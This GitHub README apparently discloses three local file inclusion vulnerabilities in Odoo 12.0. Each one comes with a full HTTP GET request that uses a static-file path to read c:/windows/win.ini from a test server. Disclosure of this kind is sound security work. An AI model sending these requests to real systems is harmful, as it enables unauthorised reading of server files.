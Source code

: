 # Odoo-12.0-LFI-Vulnerabilities
[Odoo 12.0](https://www.odoo.com/) that is open source ERP and CRM, allows remote attackers to read local files. 

[https://www.odoo.com/security-report](https://www.odoo.com/security-report)

![alt tag](https://emreovunc.com/images/odoo-emreovunc-security.png)

# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/base_import/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base_import/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-3.png)


# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/web/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /web/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-1.png)

# CVE-2019-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]:8069/base/static/c:/windows/win.ini' request to get some informations from the target.

```
GET /base/static/c:/windows/win.ini HTTP/1.1
Host: 172.16.191.132:8069
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/Odoo-v12-LFI-Vulnerability-2.png)
